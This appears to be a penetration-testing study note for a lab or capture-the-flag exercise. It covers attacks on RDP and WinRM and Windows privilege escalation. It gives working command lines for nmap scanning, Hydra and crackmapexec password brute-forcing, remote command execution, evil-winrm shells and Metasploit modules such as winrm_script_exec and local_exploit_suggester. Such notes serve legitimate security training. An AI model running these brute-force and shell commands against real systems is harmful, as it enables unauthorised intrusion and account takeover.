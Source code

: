 ### Exploiting RDP

- RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port
- preform a bruteforce

1. preform nmap: `nmap -sV -p- 10.10.x.x`
2. verify RDP port by using msfconsole: `service postgresql start && msfconsole`
3. search msfconsole: `search rdp_scanner` (auxilary/scanner/rdp/rdp_scanner)
4. set options: `set RHOSTS` & `set RPORT` and run
5. brute-force HYDRA: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_user.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.10.x.x -s <port>`
6. xfreerdp with creds: `xfreerdp /u:username /p:password /v:10.10.x.x:port`

### Exploit WinRM

- Windows remote managment facilitates remote access with windows systems over HTTP(s)
- WinRM Typically uses TCP port 5985 and 5986(HTTPS)
- can use crackmapexec to perform a brute-force on WinRM
- also evil-winrm to optain command shell

1. scan with nmap `nmap -sV -sC -p5000-6000 10.10.x.x` , the result will not say that it is WinRM, but from the port number we can deduce it
2. use crackmapexec to both confirm and brute force: `crackmapecex`
3. In crackmapexec: `crackmapexec winrm 10.10.x.x -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
4. after opataining creds check command with -x: `crackmapexec winrm 10.10.x.x -u administrator -p tinkerbell -x "whoami"` or "systeminfo"
5. evil-winrm to get shell: `evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.19.116`
6. find flag

_meterpreter_

1. `service postgresql start && msfconsole`
2. search: `search winrm_script`, look for exploit/windows/winrm/winrm_script_excec
3. set options + also set FORCE_VBS true

## Privelege Escalation

### meterpreter elevation

- in msfconsole you can use the privelege escalation suggester.

1. when logged in to meterpreter, on the system you have compromised with low level creds, type `getsystem` to see if you can just raise priveleges that way. if not go to step 2.
2. after gaining access to the machine in msfconsole(nmap scan then get creds(low level), then get access), background the session( `background` see picture) search for `search suggester`
   ![alt text](/assets/meterpreter_background_session.png)
3. `use post/multi/recon/local_exploit_suggester`